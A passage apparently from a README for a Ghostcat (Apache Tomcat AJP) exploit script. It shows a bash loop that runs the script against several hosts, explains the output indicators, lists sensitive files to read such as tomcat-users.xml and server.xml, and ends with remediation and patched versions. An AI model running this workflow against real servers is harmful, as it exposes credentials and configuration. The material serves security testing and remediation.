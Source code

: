 ### 3. Test Multiple Targets
```bash
# Create a simple bash loop
for target in target1.com target2.com target3.com; do
    echo "Testing $target"
    python3 ghostcat_exploit.py -t http://$target -c
done
```

## Understanding the Output

### Status Messages
- **🔵 INFO**: General information and progress updates
- **🟢 SUCCESS**: Successful operations (connections, file reads)
- **🔴 ERROR**: Failed operations or errors
- **🟡 WARNING**: Potential vulnerabilities or important notices

### Vulnerability Indicators
- Target responds to AJP protocol requests
- Successful file reading from protected directories
- Server banner indicates Apache Tomcat

## Common Target Files

When using the `-f` option, try these common sensitive files:

```bash
# Configuration files
WEB-INF/web.xml
WEB-INF/classes/application.properties
META-INF/context.xml

# Tomcat specific
conf/server.xml
conf/tomcat-users.xml
conf/web.xml

# Application files
WEB-INF/classes/config.properties
WEB-INF/spring-context.xml
```

## Remediation

If you find systems vulnerable to Ghostcat:

1. **Immediate**: Disable or secure the AJP connector
2. **Update**: Upgrade to patched Tomcat versions:
   - 9.0.31+
   - 8.5.51+
   - 7.0.100+
3. **Configure**: If AJP is needed, bind to localhost only
4. **Firewall**: Block external access to port 8009
5. **Monitor**: Implement logging for AJP connections
